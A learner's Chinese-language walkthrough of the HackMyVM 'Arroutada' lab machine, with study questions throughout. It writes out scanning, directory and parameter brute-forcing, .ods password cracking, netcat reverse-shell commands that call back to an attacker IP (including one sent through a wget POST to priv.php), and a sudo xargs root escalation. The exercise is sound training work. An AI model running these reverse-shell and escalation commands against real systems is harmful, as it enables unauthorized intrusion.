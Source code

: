 ## 1、靶场搭建

PS：一楼使用的网络需要额外认证，不能采用桥接模式。

## 2、网络信息收集

```bash
sudo arp-scan -l -I eth0
#将扫描到的所有网络信息输出到net-info.txt中，并提取出所有活动设备的ip到ip-info.txt
sudo arp-scan -l > net-info.txt
awk '/^[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+/ {print $1}' net-info.txt > ip-info.txt
```

![image-20240620104841530](hmv.arroutada.assets/image-20240620104841530.png)

## 3、端口信息收集

```bash
#理论上不知道在哪个主机有开放端口的情况下应该将所有的主机都扫描，但是此处其实已知是靶机（192.168.6.166）有开放端口，因此只扫描靶机即可
#sudo nmap -sV -p- -Pn -iL ip-info.txt
sudo nmap -sV -p- -Pn -iL 192.168.6.166
###
#-s代表scan,V代表version，对主机版本信息扫描，还有S为SYN扫描，T为TCP连接扫描，U为UDP连接扫描。
#-p-为扫描1-65535所有端口，默认情况为只扫描到1000端口
#-Pn，即ping no，nmap在端口扫描的时候会先发icmp，为了避免防火墙等设备阻止icmp请求导致nmap认为主机不在线（而且arp-scan已知该主机在线）。
###


###
##为什么使用arp-scan发现主机而不用imcp发现？
#arp在2.5层，因此无视基于ip过滤的防火墙，但是icmp是在3.5层。
###
```

![image-20240620104439637](hmv.arroutada.assets/image-20240620104439637.png)

## 4、路径扫描

```bash
#开放了端口80，http，可以通过暴力破解找到有哪些文件，从而分析出哪些文件可以被访问，哪些不允许被访问，根据收集的信息决定进一步渗透的方法。
sudo apt instasll gobuster
gobuster dir -u http://192.168.6.166/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,zip,bak,jpg,txt,html

###
#403表示有文件但无访问权限，301代表重定向，200代表成功访问。
#因此接下来看看能从200和301状态码的网页中获取到什么有用的信息
###
```

![image-20240620155517960](hmv.arroutada.assets/image-20240620155517960.png)

```bash
###
#首先访问index.html，为一个握拳且无有效信息的页面(除非它是个包含秘密数据的特殊图像)
#其次访问imgs和scout，imgs下即为index.html中的握拳图片，没啥用。scout中为一个提示，表明有重要文件存在于/scout/******/docs/下。这就可以想到采用模糊测试工具暴力破解。
###
```

<img src="hmv.arroutada.assets/image-20240620115521366.png" alt="image-20240620115521366" style="zoom: 25%;" />

<img src="hmv.arroutada.assets/image-20240620115528095.png" alt="image-20240620115528095" style="zoom:33%;" />

![image-20240620115459626](hmv.arroutada.assets/image-20240620115459626.png)

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirb/big.txt -u 'http://192.168.6.166/scout/FUZZ/docs/'  --hl 3
###
#--hc==404，hc即hide code，忽略404相应。FUZZ用户模糊测试，类似通配符。
###

###
#疑问：为什么要设置--hl 3，不看响应体长度为3的响应？？？有什么意义在这里？
###
```

![image-20240620155129301](hmv.arroutada.assets/image-20240620155129301.png)

```bash
#破解到了重要文件所在的路径，访问/scout/j2/docs/，发现存在两个有效文件（其它z***文件是什么用处，模拟存在好多文件？）。打开pass.txt发现一个用户名+密码，打开shellfile.ods发现需要输入密码，因此将其down下来尝试破解（有一个核心问题，如果不是教程，我怎么知道这个.ods文件的加密模式是可以被破解的？这个问题与文尾疑问相对应）。
wget http://192.168.6.166/scout/j2/docs/shellfile.ods
libreoffice2john shellfile.odf > key_hash
john -w=/usr/share/wordlists/rockyou.txt key_hash

###
#疑问：我并没有查到相关官方文档说.ods中默认采用PBKDF2进行密钥派生得到密钥并利用AES对称加密，然后用SHA-1散列派生的密钥，是因为我没有查到相关文档吗？如果.ods采用未知的加密模式怎么办？还是说libreoffice2john工具能自动识别.ods文件的加密模式？
###
```

<img src="hmv.arroutada.assets/image-20240620142240114.png" alt="image-20240620142240114" style="zoom: 50%;" />

![image-20240620142256845](hmv.arroutada.assets/image-20240620142256845.png)

![image-20240620142319051](hmv.arroutada.assets/image-20240620142319051.png)



![image-20240620150501324](hmv.arroutada.assets/image-20240620150501324.png)

```bash
#破解得到.ods的密码为john11，输入后得到了一个新的文件路径，大概里thejabasshell.php是下一步的突破点。
#访问发现是个空白页面，然后爆破参数。
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://192.168.6.166/thejabasshell.php?FUZZ=whoami' -fw 1

###
#疑问1：这里作者为什么会想到爆破html参数名？这是原因还是经验？空白html就要想到爆破参数名？
#疑问2：我理解这里FUZZ=whoami是根据返回的状态码确定正确的参数名，但为什么要设定参数值为whoami，如果靶机上的server将whoami这种单词进行了黑名单过滤，岂不是也会返回错误的状态码？没法控制单一变量，那岂不是试到了正确的参数名也可能会被认为是错误的参数名吗。
###
```

<img src="hmv.arroutada.assets/image-20240620150742209.png" alt="image-20240620150742209" style="zoom:50%;" />![image-20240620151057367](hmv.arroutada.assets/image-20240620151057367.png)

<img src="hmv.arroutada.assets/image-20240620155051799.png" alt="image-20240620155051799" style="zoom:50%;" />

```bash
#爆破到了一个正确的参数名a，访问它得到了一个提示说突破点在参数b上（而且可以看出来a的参数值暂时并没有作为命令在靶机上执行）
#尝试给参数b一个参数值（b=ls)，发现还是提示突破点在参数b上。这里感觉就像是a是输入了一个用户名，需要b的参数值作为密码匹配成功才能看到某些信息。因此，继续爆破b的参数值。
ffuf -w /usr/share/wordlists/rockyou.txt -u 'http://192.168.6.166/thejabasshell.php?a=whoami&b=FUZZ' -fw 5
```



![image-20240620153112013](hmv.arroutada.assets/image-20240620153112013.png)

![image-20240620153513536](hmv.arroutada.assets/image-20240620153513536.png)

<img src="hmv.arroutada.assets/image-20240620154906918.png" alt="image-20240620154906918" style="zoom:50%;" />

```bash
#得到b的参数值为pass时返回了200状态码，尝试输入b=pass，返回了www-data。再试一下别的命令a=ls,发现也被执行了，基本证明a的值会在b的值为pass时作为命令执行
```

![image-20240620155701151](hmv.arroutada.assets/image-20240620155701151.png)

![image-20240620155734544](hmv.arroutada.assets/image-20240620155734544.png)

## 5、获取shell

```bash
#现有条件为命令可执行，且靶机仅开放了80端口，没有开放ssh的22端口，因此无法正向shell，只能反弹shell。先kali使用nc监听5555端口，然后给a的值设置为nc 192.168.6.149 5555 -e /bin/bash然后访问,拿到shell。
nc -lvp 5555
script /dev/null -c bash
```

![image-20240620162119592](hmv.arroutada.assets/image-20240620162119592.png)![image-20240620160820481]

![image-20240620162220315](hmv.arroutada.assets/image-20240620162220315.png)

![image-20240620163625456](hmv.arroutada.assets/image-20240620163625456.png)

```bash
#查看定时文件，发现没有
crontab -l
#查看suid命令和文件
find / -perm -u=s -type f 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null
#查看是否有其它未开放但监听的端口，有一个8000端口
ss -altp
###
#疑问1：查看定时文件、查找可利用suid命令和文件、查看监听但未开放端口，这是在任何场景下拿到普通权限后提权的思路吗，除此之外还有哪些思路？
#疑问2：为什么作者说没有可用suid命令和文件？这不是有吗？是无法被利用进行渗透吗？
###
```

![image-20240620163957853](hmv.arroutada.assets/image-20240620163957853.png)

![image-20240620164939453](hmv.arroutada.assets/image-20240620164939453.png)

![image-20240620164954455](hmv.arroutada.assets/image-20240620164954455.png)

![image-20240620164510824](hmv.arroutada.assets/image-20240620164510824.png)

```bash
#本地命令行访问这个端口-用wget down下来html页面（我看另一个作者还用curl去尝试down，收集一下用于down的命令），必须要进入tmp目录下wget
wget http://lcoalhost:8000
cat index.html
###
#疑问1：为什么在tmp下才能wget成功？
```

<img src="hmv.arroutada.assets/image-20240620165605371.png" alt="image-20240620165605371" style="zoom:50%;" />

<img src="hmv.arroutada.assets/image-20240620170355606.png" alt="image-20240620170355606" style="zoom:50%;" />

![image-20240620170626021](hmv.arroutada.assets/image-20240620170626021.png)

```bash
#得到一个Brainfuck编码，解码结果为all HackMyVM hackers!!且提示了一个文件priv.php，这个文件应该就是接下来的突破点。继续把他wget down下来查看内容
wget http://127.0.0.1:8000/priv.php
cat priv.php
```

![image-20240620170824511](hmv.arroutada.assets/image-20240620170824511.png)

<img src="hmv.arroutada.assets/image-20240620171628302.png" alt="image-20240620171628302" style="zoom:50%;" />

```bash
#$json接收传入的原始post数据，然后解析json给$data，json会将command参数的值传递给system()函数，system()函数执行这个值（命令），因此得到可以任意命令执行的利用链。
#在kali上监听6666端口，用wget以post形式提交表单
wget --post-data='{"command":"nc 192.168.6.149 6666 -e /bin/bash"}' http://127.0.0.1:8000/priv.php

#获取到drito用户的权限
wget --post-data='{"command":"nc -c /bin/bash 192.168.6.149 8888"}' http://127.0.0.1:8000/priv.php
```

![image-20240620172602324](hmv.arroutada.assets/image-20240620172602324.png)

<img src="hmv.arroutada.assets/image-20240620172648234.png" alt="image-20240620172648234" style="zoom:50%;" />

<img src="hmv.arroutada.assets/image-20240620172753030.png" alt="image-20240620172753030" style="zoom:50%;" />

## 6、获取root权限

```bash
#sudo -l发现xargs有root权限。
#https://gtfobins.github.io/gtfobins/xargs/#sudo中为利用xargs提权的方法（break out from restricted environments）
#仔细学习研究为什么能提权。

sudo xargs -a /dev/null sh
#获取root权限
```

<img src="hmv.arroutada.assets/image-20240620173031777.png" alt="image-20240620173031777" style="zoom:50%;" />

<img src="hmv.arroutada.assets/image-20240620173714828.png" alt="image-20240620173714828" style="zoom:50%;" />

```bash
###
#请教：请问有没有一些常用的好用的字典？或者推荐某个网站上有？或者推荐某个git上有？
#终极疑问：/scout/j2/docs下的pass.txt文件中的内容user:password有什么用？全文没有发现它被使用到。
###
```

```bash
#PS：
#爆破文件目录和文件名
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/usr/share/wordlists/dirb/big.txt
/usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
#爆破密码
/usr/share/wordlists/rockyou.txt
```

